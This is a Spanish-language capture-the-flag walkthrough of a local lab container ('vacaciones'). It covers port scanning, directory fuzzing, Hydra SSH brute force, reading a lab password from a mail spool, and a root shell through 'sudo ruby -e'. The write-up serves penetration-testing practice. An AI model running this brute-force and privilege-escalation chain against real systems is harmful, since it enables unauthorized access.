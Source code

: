 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh vacaciones.tar
```

![Pasted image 20250129185403](https://github.com/user-attachments/assets/8b9bca24-1701-4956-91bd-297db9054bc6)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129185423](https://github.com/user-attachments/assets/849e4049-3b9a-4f82-88d7-38ea2af76aed)

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129185545](https://github.com/user-attachments/assets/48766e6e-d8a2-4afd-96b9-c3a629c1f8e8)

Nos metemos en los directorios:

![Pasted image 20250129185715](https://github.com/user-attachments/assets/c8fa990f-ef5a-4cb1-b9e8-5ad8efad6b11)

```Bash
cntrl + u
```

![Pasted image 20250129185818](https://github.com/user-attachments/assets/544fc2c4-3c48-4a87-a7e3-151fce991f49)

Nos da un usuario (Camilo)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250129190053](https://github.com/user-attachments/assets/9f0b1cc8-9d80-4ac4-ab36-ff021557ee95)

Nos conectamos con SSH:

```Bash
ssh camilo@172.17.0.2
```

![Pasted image 20250129190547](https://github.com/user-attachments/assets/71f52863-5ef2-4f69-bd49-47e2e5d142f2)

```Bash
/bin/bash -i
```

![Pasted image 20250129190824](https://github.com/user-attachments/assets/59e558c3-caf4-4ebf-b604-6fb64cb66d67)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129190912](https://github.com/user-attachments/assets/9f58b198-9aee-4ddb-981f-80635b5834e4)

```Bash
find / -perm /4000 2>/dev/null
```

![Pasted image 20250129191753](https://github.com/user-attachments/assets/7db941a9-5ee5-44e8-b2ee-54532d0f92ed)

No podemos.

Nos vamos a la dirección donde se guardan los mail:

```Bash
cd /var/mail/camilo
```

![Pasted image 20250129192332](https://github.com/user-attachments/assets/fd1c209e-88cf-4d3c-894c-8dc4e58e9536)

(A veces se guardan aquí también)

```Bash
cd /var/spool/mail/camilo
```

Listamos:

```Bash
ls
```

![Pasted image 20250129192510](https://github.com/user-attachments/assets/7e579e22-d172-448f-8334-28e5e242616d)

```Bash
cat correo.txt
```

![Pasted image 20250129192543](https://github.com/user-attachments/assets/53e2a526-789a-44d6-8b17-f9910191f62a)

juan: 2k84dicb

Nos conectamos con SSH:

```Bash
ssh juan@172.17.0.2
```

![Pasted image 20250129192647](https://github.com/user-attachments/assets/6ce006c2-b9f7-44ca-a53b-5922ba04be3a)

```Bash
/bin/bash -i
```

![Pasted image 20250129192815](https://github.com/user-attachments/assets/de97ab71-2249-4ddd-a161-5449702f5d35)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129192913](https://github.com/user-attachments/assets/5f66a973-8cf6-4378-86c2-763c7d27befb)

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![Pasted image 20250129193159](https://github.com/user-attachments/assets/76ae791c-0574-4b02-b2b7-ce8e9ce9ff99)

```Bash
whoami
```

![Pasted image 20250129193213](https://github.com/user-attachments/assets/32dcc17b-d657-48cc-a70a-f2672a847a90)
